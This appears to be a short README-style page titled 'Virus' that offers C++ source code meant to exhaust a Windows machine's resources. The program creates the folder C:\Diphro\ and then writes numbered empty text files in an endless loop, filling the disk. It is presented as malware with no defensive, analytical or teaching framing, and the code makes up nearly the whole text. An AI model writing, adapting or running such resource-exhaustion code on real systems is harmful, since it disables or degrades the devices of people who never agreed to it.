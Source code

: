 # Virus
Idea &rarr; Duplicate a file on the device infinitely, and this consumes the device's resources to the maximum.
```c
#include <bits/stdc++.h>
#include <direct.h>
using namespace std;

int main() {

    long long indexFile = 0;
    char const* path = "C:\\Diphro\\";
    _mkdir(path);

    while (true) {
        indexFile++;
        ofstream file (path + to_string(indexFile) +".txt");
    }
}
```
